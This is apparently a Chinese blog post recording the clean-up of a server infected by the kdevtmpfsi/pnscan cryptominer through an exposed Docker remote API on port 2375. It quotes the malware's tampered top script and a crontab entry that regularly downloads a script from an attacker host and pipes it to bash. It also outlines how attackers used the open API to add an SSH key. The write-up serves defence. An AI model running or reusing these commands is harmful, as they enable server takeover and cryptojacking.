 ```yaml
---
title: pnscan挖矿病毒排查过程记录
---
```


> 记一次服务器被挖矿病毒攻击

- 原因：因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒kdevtmpfsi，pnscan

- 现象：CPU占用拉满，定时任务向6379端口持续发送信息

1. 首先想到使用top命令排查进程，发现top无法使用，显示`permission denied` ，

   ```shell
   [root@VM-16-4-centos bin]# top
   -bash: /usr/bin/top: Permission denied
   ```

2. 查询后获悉`top` 命令被篡改为如下

   ```shell
   [root@VM-16-4-centos bin]# cat /usr/bin/top
   #!/bin/bash
   top.lanigiro $@ | grep -v 'ddns\|scan'
   ```

3. 拷贝原有top脚本，通过ftp传输，发现无法覆盖`top` 文件，使用 `lsattr` 命令查看文件属性，果然为被设置为了 `-i`  不可修改：

   ```shell
   [root@VM-16-4-centos bin]# lsattr /usr/bin/top
   ----i--------e-- /usr/bin/top
   ```

4. 打算使用`chattr` 命令删除`-i` 参数，发现`chattr` 命令不可用，也被删除掉了

   ```shell
   [root@VM-16-4-centos bin]# chattr
   -bash: chattr: command not found
   ```

5. 只能重新安装`chattr` 命令，查看安装包版本，先删除再安装`e2fsprogs` 包

   ```shell
   [root@VM-16-4-centos bin]# rpm -qa|grep e2fsprogs
   e2fsprogs-libs-1.42.9-19.el7.x86_64
   e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum remove e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum install e2fsprogs-1.42.9-19.el7.x86_64
   ```

6. 重装后`chattr` 命令终于可用，修改文件属性，使用FTP工具传输覆盖`top` 命令，仍然无法使用top命令，于是改安装`htop` 命令

   ```shell
   yum -y install htop
   ```

7. 使用`htop` 命令查看，发现挖矿病毒，继续排查

   ![1654084303957](C:\Users\sherlock\AppData\Roaming\Typora\typora-user-images\1654084303957.png)

8. 查看定时任务，并停止，发现cron脚本也被感染无法更改（心肺停止...）

   ```shell
   [root@VM-16-4-centos bin]# crontab -l
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   [root@VM-16-4-centos bin]# crontab -e
   
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   ```

9. 修改`cron` 文件属性，修改后删除定时任务，再使用`htop` 命令查看，CPU占用明显降低，仅剩  **pnscan** 病毒

   ```shell
   [root@VM-16-4-centos bin]# chattr -iae /var/spool/cron/root 
   [root@VM-16-4-centos bin]# lsattr /var/spool/cron/
   -------------e-- /var/spool/cron/root
   [root@VM-16-4-centos bin]# crontab -e
   crontab: installing new crontab
   
   ```

10. 但修改后仍然无法删除定时任务脚本只能编辑，原来可能存在隐藏文件，`lsattr -a` 命令查看果然有，同样`chattr` 修改对应文件属性

    ```shell
    [root@VM-12-14-centos cron]# lsattr -a
    ----ia-------e-- ./.
    -------------e-- ./..
    ---------------- ./root
    [root@VM-12-14-centos cron]# chattr -iae .
    [root@VM-12-14-centos cron]# chattr -iae ..
    [root@VM-12-14-centos cron]# lsattr -a
    ---------------- ./.
    ---------------- ./..
    ----------------./root
    ```

11. 去除pnscan，用htop命令查看 pnscan进程位置，删除对应文件，至此pnscan病毒搞定

    ```shell
    [root@VM-12-14-centos bin]# rm -f pnscan
    ```

12. 终于发现被攻击原因，因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒，具体原因分析如下：

- docker开放2375端口用于远程管理容器，而容器本身可以挂载服务器目录；
- 因此攻击者通过2375端口，拉取做好的镜像，启动容器时挂载`~/.ssh` 目录 在 `authorized_keys` 中添加了攻击者的公钥，至此，攻击者获得服务器控制权，进而执行病毒脚本。
  
- 参考：https://www.techug.com/post/do-a-hacker-invade-a-server.html

> 后记：外网环境应通过`TLS`方式开启docker远程端口访问，配置细节可站内搜索《docker环境及常用镜像安装》  